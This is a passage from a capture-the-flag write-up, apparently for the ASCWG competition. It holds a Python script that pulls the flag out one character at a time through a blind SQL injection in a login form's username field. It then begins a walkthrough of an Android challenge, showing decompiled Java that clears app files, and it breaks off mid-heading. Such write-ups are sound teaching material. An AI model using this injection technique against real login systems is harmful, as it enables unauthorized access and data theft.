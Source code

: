 ```python
chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ_}'
flag = "ASCWG{"

while '}' not in flag:
    for c in chars: 
        burp0_data = {"username": f"test' or user ~ '^{flag+c}'--", "password": "test"}
        res = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        print("Trying", burp0_data)
        if "Welcome" in res.text:
            flag += c
            print("Found", flag)
            break
        time.sleep(2)
```

![Untitled (8)](https://github.com/user-attachments/assets/ebda0497-8476-47e6-818b-de9737a0c23e)

FLAG: ASCWG{YEAH_YOU_DID_IT}

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 

Lost & found

![Untitled](https://github.com/user-attachments/assets/3cf4fea8-95f6-4726-a33b-f52f032a1e66)

This challenge was quite easy, so to speed things up, I’ll just show you the imported Java code in the application.

![Untitled (1)](https://github.com/user-attachments/assets/a19c3591-5832-440b-b1e8-6d73f4ca76fc)

clearFilesDirectory

```java
/* JADX INFO: Access modifiers changed from: private */
private final void clearFilesDirectory() {
    File[] listFiles = getFilesDir().listFiles();
    if (listFiles != null) {
        for (File file : listFiles) {
            try {
                Intrinsics.checkNotNull(file);
                FilesKt.a(file);
            } catch (IOException e2) {
                e2.printStackTrace();
            }
        }
    }
}
```

- This method clears the files in the app's internal files directory.
- `getFilesDir()` retrieves the directory.

onCrate Method
